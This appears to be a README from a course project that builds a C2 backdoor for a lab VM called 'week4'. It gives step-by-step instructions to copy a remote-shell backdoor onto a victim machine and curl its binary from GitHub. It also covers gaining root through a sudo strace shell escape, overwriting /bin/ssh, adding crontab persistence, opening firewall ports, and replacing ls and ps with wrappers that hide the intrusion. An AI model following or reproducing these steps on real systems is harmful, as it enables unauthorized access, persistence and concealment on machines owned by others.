 # C2 Project - John R. Smith
## Build Instructions
This project relies on the tiny-aes library. Those dependencies are located in the /tiny-aes directory. Build them by going into that directory and running make.
Once that is compiled, go into the src directory and run make as well. This will compile the backdoor binary for the week4 machine.
*If you want to compile the wrapper files, you can do so using gcc and the following arguments for execution on the legacy week4 linux version*:
`--std=gnu99 -static -static-libgcc -static-libstdc++` 
### Backdoor Installation
#### Required files
To install the backdoor, you must place the following files from this directory onto the victim machine. For the week4 VM, this can easily be done using SCP and the compromised user password (hill).
- `example_key`: for AES authentication, you can modify this to use a different key and IV
- `backdoor` (binary): the remote shell
<br>You can also use curl to dynamically pull the latest binary from the GitHub: `curl -L https://github.com/jrsmith03/c2/releases/tag/c2/backdoor`
#### Modifications to the system
1. Obtain root access via the simplest exploit: entering the command `sudo strace -o /dev/null /bin/sh`
2. Overwrite the system's SSH client with the `backdoor` binary - `mv backdoor /bin/ssh`
3. Modify the crontab to allow for remote connections and persistance: 
    - Enter `crontab -e` and add the line `@reboot ssh user@contoso.org`
    - Optional: You may need to disable the firewall service with `@reboot sudo strace -o /dev/null /bin/sh` if modifications to the firewall don't work.
4. Modify the firewall to allow connections on a range of ports: `firewall-cmd --zone=public --add-port=1338/tcp --permanent`
    - *Note: you'll want to ports on the range that you specified when you configured the backdoor arguments*
#### *Optional changes for better hiding*
5. Replace `ls` with the wrapper binary via `mv /bin/ls /bin/oldls; mv ls_w /bin/ls`. Repeat for `ps`
#### 
## Configuration & Manual
Once the backdoor is configured properly, no more direct interaction with the victim (week4) machine is needed. As specified in the writeup, the backdoored machine accepts client connections via TCP sockets. Subsequently, you must point the *c2 client* at the *backdoor machine* in order for it to recieve commands. This configuration is done via arguments to allow for maximum flexibility.
The arguments are as follows: `./client <server_ip> <server_port> <user> <password> <number of retries>`, where
- user and password are by default 'user' and 'password'. This can be modified in the source `(backdoor.c)`.
- The default port for the backdoor is 1337, however this can be changed via optional command line arguments *to the backdoor* (see above)
- If you change the AES key or IV, client expects the file `example_key` located in the same directory as the binary; backdoor expects the file `id_rsa` located in `/root/.ssh/id_rsa`

